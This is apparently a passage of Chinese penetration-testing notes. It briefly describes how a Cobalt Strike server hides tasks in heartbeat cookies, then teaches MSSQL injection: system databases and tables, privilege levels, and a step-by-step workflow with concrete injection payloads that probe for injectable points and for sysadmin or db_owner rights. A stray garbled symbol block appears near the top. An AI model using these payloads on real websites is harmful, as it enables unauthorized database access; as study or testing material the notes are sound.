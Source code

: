 如果cs服务器有任务下发，则会加密放在http心跳包的cookie里面，下发后，靶机完成指令，也同样会返回一个post包都加密并隐藏在cookie中。

```
！@#￥%……&*（）——+&&7L
```

## MSsql注入

### 概述

SQL Server 是一个**关系数据库管理系统**。经常与asp或者aspx一起使用

### 详解

#### 系统自带库

MSSQL安装后默认带了6个数据库，其中4个系统级库：master，model，tempdb和msdb；2个示例库：Northwind Traders和pubs。

```
master：主要为系统控制数据库，其中包括了所有配置信息、用户登录信息和当前系统运行情况。
model：模版数据库
tempdb：临时容器
msdb：主要为用户使用，所有的告警、任务调度等都在这个数据库中。
```

#### 系统自带表

MSSQL数据库与Mysql数据库一样，有安装自带的数据表sysobjects和syscolumns等，其中需要了解的就是这两个数据表

```
sysobjects：记录了数据库中所有表，常用字段为id、name和xtype。
syscolumns：记录了数据库中所有表的字段，常用字段为id、name和xtype。

//id为标识，name为对应的表名和字段名，xtype为所对应的对象类型
```

### 权限问题

sqlserver存在三种权限：

```
sa:能对所有库操作
dbowner:只能对所拥有的库操作
public
```

Msssql的默认端口号是1433，oracle的端口号是1521，mysql是3306，在windows下通过netstat -an -p tcp -o指令就能看到，并且可以查看到对于的进程pid，通过任务管理器可以查看到进程是 谁。

mssql数据库中有两种用户：windows系统用户和sql用户。windows系统用户只能本地连接，sql用户可以本地也可以远程

### 注入流程

```
1、判断注入点
' 单引号是否报错
and 1=1 / and 1=2 页面是否相同

2、判断数据库类型是否为MSSQL
and (select count(*) from sysobjects)>0
and exists(select * from sysobjects)

3、判断注入点权限
//当前是否为sa
and exists(select is_srvrolemember('sysadmin'))
或and (select is_srvrolemember('sysadmin'))>0
//判断当前用户写文件、读文件的权限
and exists(select is_srvrolemember('db_owner'))
或and (select is_srvrolemember('db_owner'))>0
```